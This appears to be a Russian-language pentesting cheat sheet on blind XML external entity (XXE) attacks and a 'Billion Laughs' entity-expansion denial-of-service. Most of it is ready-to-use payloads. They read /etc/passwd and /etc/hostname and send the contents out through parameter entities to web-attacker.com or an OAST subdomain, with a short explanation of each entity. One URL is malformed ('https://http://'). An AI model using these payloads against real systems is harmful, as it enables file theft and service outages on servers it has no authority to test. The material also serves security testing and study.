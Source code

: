## 3.2. При blind xxe

#### 3.2.1. Проверка реакции на DTD-инъекции

##### Обнаружение слепого XXE с использованием внеполосных (OAST) методов

###### Пингуем
```
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe SYSTEM "http://web-attacker.com"> 
]>
<root>&xxe;</root>
```
или
```
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
	%xxe; 
]>
```

Развиваем атаку делая полезную нагрузку у себя на сервере
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'https://http://web-attacker.com/%file;'>">
```
- смотрим логи подключения
###### Сущности параметров XML с CDA
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % end "]]>">
  <!ENTITY % wrapper "<!ENTITY &#x25; send SYSTEM 'https://YOUR-SUBDOMAIN.oast.pro/?data=%start;%file;%end;'>">
  %wrapper;
]>
<root>&send;</root>
```
**Объяснение payload**
- `%file` — читает файл `/etc/passwd`.
- `%start` и `%end` — обрамляют данные в `CDATA`, чтобы избежать ошибок парсера из-за спецсимволов.
- `%wrapper` — создает сущность `%send`, которая отправляет содержимое файла на ваш сервер через URL-параметр `data`.

## 3.3. Экзотические

- Уязвимость может быть возможна даже при отключенных внешних сущностях, если парсер XML обрабатывает DTD (Document Type Definition) и разрешает использование внутренних сущностей, параметрических сущностей или других функций DTD
#### 1. Атака "Billion Laughs" (DoS через расширение сущностей)
Эта атака использует вложенные внутренние сущности для создания экспоненциального расширения данных, что приводит к отказу в обслуживании (DoS).
```
<?xml version="1.0"?>
<!DOCTYPE example [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
]>
<example>&lol3;</example>
```